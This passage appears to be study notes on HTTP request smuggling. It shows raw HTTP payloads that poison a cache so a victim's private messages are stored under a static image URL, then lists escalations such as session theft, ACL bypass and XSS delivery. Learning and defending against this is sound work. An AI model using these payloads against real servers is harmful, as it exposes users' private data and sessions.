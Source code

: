 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

Next victim request:

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=VictimSession
```

Result → Victim’s **private messages cached** under `/static/some-image.png`. Attacker retrieves them.

⚠️ Caveat: Attacker may not know exact cache key → may need to brute-force static URLs.

---

## 🧠 Key Takeaways

- Exploitation paths depend on **app behavior + front-end rewrites + caching layers**.
    
- Smuggling can escalate into:
    
    - **Bypassing ACLs / Authentication**
        
    - **Stealing sessions**
        
    - **XSS delivery**
        
    - **Redirects & Cache poisoning/deception**
        
- Cache-based attacks = **persistent** and can affect many users at once.
    